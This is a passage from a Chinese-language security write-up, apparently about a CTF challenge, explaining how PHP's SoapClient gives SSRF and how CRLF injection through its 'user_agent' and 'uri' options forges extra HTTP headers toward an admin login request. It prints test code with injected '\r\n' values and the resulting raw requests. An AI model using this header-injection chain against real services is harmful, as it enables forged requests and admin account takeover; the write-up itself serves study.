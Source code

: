 这样我们就有了SSRF，可以发请求了。我们需要的是用SSRF来登录管理员账号，这里的soapClient只可以用来发送xml的数据，而且`Content-Type`也不符合要求，那怎么办呢？ 

### 0x4 CRLF来助攻，伪造登录请求

根据我的测试，soapClient存在CRLF的参数有两个,一个是`user_agent`,一个是`uri`。

测试代码如下：

**user_agent**

```php
$location = "http://127.0.0.1:9999/2.php?action=login";
$uri = "http://127.0.0.1/";
$event = new SoapClient(null,array('user_agent'=>"test\r\ntest:test",'location'=>$location,'uri'=>$uri));
$event->getcountry();

//收到的请求为
/*
POST /2.php?action=login HTTP/1.1
Host: 127.0.0.1:9999
Connection: Keep-Alive
User-Agent: test
test:test
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://127.0.0.1/#getcountry"
Content-Length: 387

<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="http://127.0.0.1/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:getcountry/></SOAP-ENV:Body></SOAP-ENV:Envelope>
*/
```

**uri**

```php
$location = "http://127.0.0.1:9999/2.php?action=login";
$uri = "http://127.0.0.1/\r\ntest:test";
$event = new SoapClient(null,array('user_agent'=>"test",'location'=>$location,'uri'=>$uri));
$event->getcountry();

/*
  收到的请求：
POST /2.php?action=login HTTP/1.1
Host: 127.0.0.1:9999
Connection: Keep-Alive
User-Agent: test
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://127.0.0.1/
test:test#getcountry"
Content-Length: 398

<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="http://127.0.0.1/
test:test" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:getcountry/></SOAP-ENV:Body></SOAP-ENV:Envelope>
*/
```

